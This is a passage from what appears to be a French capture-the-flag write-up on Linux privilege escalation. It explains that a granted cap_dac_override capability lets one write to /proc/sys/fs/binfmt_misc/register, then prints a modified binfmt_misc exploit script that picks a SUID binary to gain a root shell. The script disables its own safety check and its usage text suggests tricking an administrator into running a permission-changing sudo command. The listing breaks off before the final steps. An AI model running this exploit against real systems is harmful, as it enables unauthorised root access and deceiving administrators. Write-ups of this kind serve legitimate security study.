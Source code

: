 on voit que dans le Makefile il lui set la capabilites cap_dac_override https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_dac_override

**This mean that you can bypass write permission checks on any file, so you can write any file.**

on peut donc écrire dans le fichier /proc/sys/fs/binfmt_misc/register

ensuite on trouve cet exploit : https://github.com/toffan/binfmt_misc

que l'ont va modifier un peu

```bash
#!/bin/bash

readonly searchsuid="/bin/"
readonly mountpoint="/proc/sys/fs/binfmt_misc"
readonly exe="$0"


warn()
{
    1>&2 echo $@
}

die()
{
    warn $@
    exit -1
}

usage()
{
    cat 1>&2 <<EOF
Usage: $exe
    Gives you a root shell if /proc/sys/fs/binfmt_misc/register is writeable,
    note that it must be enforced by any other mean before your try this, for
    example by typing something like "sudo chmod +6 /*/*/f*/*/*r" while Dave is
    thinking that you are fixing his problem.
EOF
    exit 1
}

function not_writeable()
{
	test ! -w "$mountpoint/register"
}

function pick_suid()
{
	find "$1" -perm -4000 -executable \
	    | tail -n 1
}

function read_magic()
{
    [[ -e "$1" ]] && \
    [[ "$2" =~ [[:digit:]]+ ]] && \
    dd if="$1" bs=1 count="$2" status=none \
        | sed -e 's-\x00-\\x00-g'
}

[[ -n "$1" ]] && usage

# not_writeable && die "Error: $mountpoint/register is not writeable"

target="$(pick_suid "$searchsuid")"
```